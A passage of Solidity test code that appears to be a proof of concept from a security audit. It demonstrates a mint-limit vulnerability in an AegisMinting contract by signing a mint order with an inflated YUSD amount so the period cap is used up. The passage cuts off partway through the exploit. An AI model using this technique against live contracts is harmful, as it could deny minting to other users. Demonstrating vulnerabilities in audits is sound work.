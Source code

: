 ```solidity
            custodians,
            admin
        );

        // Set minting contract as the minter for YUSD
        vm.startPrank(owner);
        yusd.setMinter(address(minting));
        vm.stopPrank();

        // Set AegisMinting address in rewards contract
        vm.startPrank(admin);
        rewards.setAegisMintingAddress(address(minting));

        // Grant roles
        minting.grantRole(minting.SETTINGS_MANAGER_ROLE(), settingsManager);
        vm.stopPrank();

        // Whitelist users
        vm.startPrank(operatorOne);
        config.whitelistAddress(user1, true);
        config.whitelistAddress(user2, true);
        vm.stopPrank();

        // Set mint limits
        vm.startPrank(settingsManager);
        vm.expectEmit(true, true, true, true);
        emit SetMintLimits(PERIOD_DURATION, MAX_PERIOD_AMOUNT);
        minting.setMintLimits(PERIOD_DURATION, MAX_PERIOD_AMOUNT);
        vm.stopPrank();

        // Mint USDC to users
        usdc.mint(user1, COLLATERAL_AMOUNT * 5);
        usdc.mint(user2, COLLATERAL_AMOUNT * 5);

        skip(10 days);
    }

    function testMintLimitVulnerability() public {
        console.log("Period limit:", MAX_PERIOD_AMOUNT / 1e18, "YUSD");

        // Step 1: User1 mints with an inflated YUSD amount equal to period limit,
        // but only receives the actual value based on collateral
        console.log("User1 attempting to mint with inflated YUSD amount...");

        // User1 mint with inflated YUSD amount
        bytes memory signature1 = signMintOrder(
            OrderLib.OrderType.MINT,
            user1,
            address(usdc),
            COLLATERAL_AMOUNT,
            INFLATED_YUSD_AMOUNT,
            YUSD_AMOUNT * 99 / 100, // 1% slippage on actual value
            block.timestamp + 1 hours,
            1
        );

        vm.startPrank(user1);
        usdc.approve(address(minting), COLLATERAL_AMOUNT);

        // Check user1's initial balance
        uint256 user1InitialUSDCBalance = usdc.balanceOf(user1);
        uint256 user1InitialYUSDBalance = yusd.balanceOf(user1);

```